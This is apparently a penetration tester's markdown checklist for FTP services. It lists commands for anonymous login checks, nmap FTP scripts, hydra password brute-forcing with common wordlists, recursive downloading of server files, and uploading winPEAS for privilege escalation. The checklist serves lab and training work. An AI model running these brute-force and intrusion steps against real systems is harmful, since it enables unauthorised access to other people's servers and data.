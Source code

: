 # FTP Checklist

1. See if there is anonymous access

```bash
ftp $ip
ftp $ip 21
ftp -A $ip
ftp -A $ip 21
# input anonymous as username and password
# try in the browser
ftp://anonymous:anonymous@10.10.10.98
```

2. Additional Enumeration

```bash
nmap --script ftp-* -p 21 $ip 
```

3. Brute force

```bash
hydra -l USERNAME -P /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f $ip ftp -V
hydra -l steph -P /usr/share/wfuzz/wordlist/others/common_pass.txt $ip -t 4 ftp
hydra -l steph -P /usr/share/wordlists/rockyou.txt $ip -t 4 ftp
```

3. Recursively download content

```bash
> prompt off
> recurse on
> mget *
```

or

````
wget -r ftp://steph:billabong@10.1.1.68/
wget -r ftp://anonymous:anonymous@192.168.204.157/

find / -name Settings.*  2>/dev/null #looking through the files
````

4. Interact

````
# Put File
put test.txt #check if it is reflected in a http port

# Upload Binary
ftp> binary
200 Type set to I.
ftp> put winPEASx86.exe
````

#### Hydra for Simple Bruteforce

```bash
hydra -L usernames-shortlist -P best1050 $ip ftp
```